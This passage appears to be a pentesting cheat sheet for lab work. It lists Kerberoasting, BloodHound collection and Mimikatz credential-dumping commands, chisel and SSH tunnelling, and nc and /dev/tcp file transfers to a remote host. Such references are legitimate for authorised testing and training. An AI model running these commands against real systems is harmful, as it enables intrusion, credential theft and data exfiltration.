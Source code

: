 Kerberoasting without credentials:

`GetUserSPNs.py -no-preauth 'target.xyz/' "username" -usersfile users.lst -dc-host 10.10.10.10`

### Bloodhound

Netexec collection:

`netexec ldap target.xyz -u '[username]' -p '[password]' --bloodhound --collection All`

SharpHound powershell

`Invoke-Bloodhound -CollectionMethod All -Domain [domain] -ZipFileName collection.zip`

### Mimikatz

`elevate::token`

`privilege::debug`

`sekurlsa::logonpasswords`

## Tunnelling/Port forwarding

### SSH

`sshuttle -r matthew@surveillance.htb -N -x 10.10.11.245`

>The target must have python for `sshuttle` to work

`ssh -L 8080:127.0.0.1:8080 user@target.xyz -Nf`

### chisel

On attacker machine `chisel server --reverse --port 9999`

On target machine `./chisel client 10.10.10.10:9999 R:8080:localhost:8080`

## File transfer

Assume `10.10.10.10` is the source IP and `9.9.9.9` is destination IP.

### Linux

```bash
nc -lvnp 4444 > file #target machine

nc -vn 9.9.9.9 4444 < file #source machine
```

```bash
nc -lvnp 8000 > file #target machine

cat /path/file > /dev/tcp/9.9.9.9/8000 #source machine
```

`scp user@10.10.10.10:/path/to/file ./destination`
